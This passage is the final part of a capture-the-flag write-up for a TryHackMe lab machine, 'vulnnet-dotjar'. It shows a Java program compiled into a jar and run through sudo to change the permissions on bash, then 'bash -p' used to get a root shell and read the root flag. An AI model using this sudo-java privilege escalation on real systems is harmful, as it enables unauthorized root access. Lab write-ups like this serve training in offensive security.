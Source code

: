 Now we need to compile it:

```text
jdk-admin@vulnnet-dotjar:/dev/shm$ javac root.java
jdk-admin@vulnnet-dotjar:/dev/shm$ jar cfe root.jar root root.class
```

Then we can run our code to change bash permissions:

```text
jdk-admin@vulnnet-dotjar:/dev/shm$ sudo -u root /usr/bin/java -jar root.jar
```

## Root Flag

Finally we run bash and escalate to root to get the last flag:

```text
jdk-admin@vulnnet-dotjar:/dev/shm$ bash -p
bash-4.4# cat /root/root.txt
THM{464c29e3ffae05c2e67e6f0c5064759c}
```

All done. See you next time.
